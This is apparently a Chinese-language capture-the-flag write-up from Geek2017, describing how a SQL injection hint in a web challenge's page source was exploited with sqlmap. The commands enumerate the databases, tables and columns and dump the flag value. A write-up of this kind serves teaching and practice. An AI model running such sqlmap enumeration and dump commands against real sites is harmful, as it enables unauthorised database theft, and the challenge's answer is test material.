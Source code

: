 ```yaml
---
layout:     post
title:      geek2017wp
subtitle:   
date:       2017-11-18
author:     FNX
header-img: img/post-bg-ios10.jpg
catalog: true
tags:
    - WP
    - Geek2017
    - WEB
---
```


## Geek2017

# Clound的错误

#### 0x00 [原理]
     kali虚拟机下的命令运用，sqlmap的使用
     
#### 0x01 [目的]
     了解kali系统下sqlmap的使用
     
#### 0x02 [环境]
     kali
     
#### 0x03 [工具]
     sqlmap
     
#### 0x04 [步骤]

1.首先打开address，是一张可爱的图片啊啊啊啊～并没有什么提示

![](/img/clound1.png)

2.右键查看源代码，有注入点的提示： sycid=1

![](/img/clound2.png)

3.http://game.sycsec.com:2007/?sycid=1

![](/img/clound3.png)

出现hint：select * from user where id='1'

4.使用sqlmap注入
  ①检测注入点是否可用:sqlmap -u "http://game.sycsec.com:2007/?sycid=1"  

  ![](/img/clound4.png)</br>

  ②暴库:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" --dbs 

  ![](/img/clound5.png)

  库名：f1ag

  ③暴表:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag --tables

  ![](/img/clound6.png)
  
  表名：flag

  ④暴字段:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag --columns

  ![](/img/clound7.png)
  
  字段：f4ag 
  
  ⑤暴字段内容:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag -C f4ag --dump
  
  ![](/img/clound8.png)
  
  字段内容：SYC{Err0r_sql_inj}
  
4.flag：SYC{Err0r_sql_inj}



#### 0x05 [总结]
    sqlmap使用

    详细可参考：(https://www.2cto.com/article/201208/151503.html)[手工注入] ， (http://blog.csdn.net/zgyulongfei/article/details/41017493)[sqlmap基本教程]





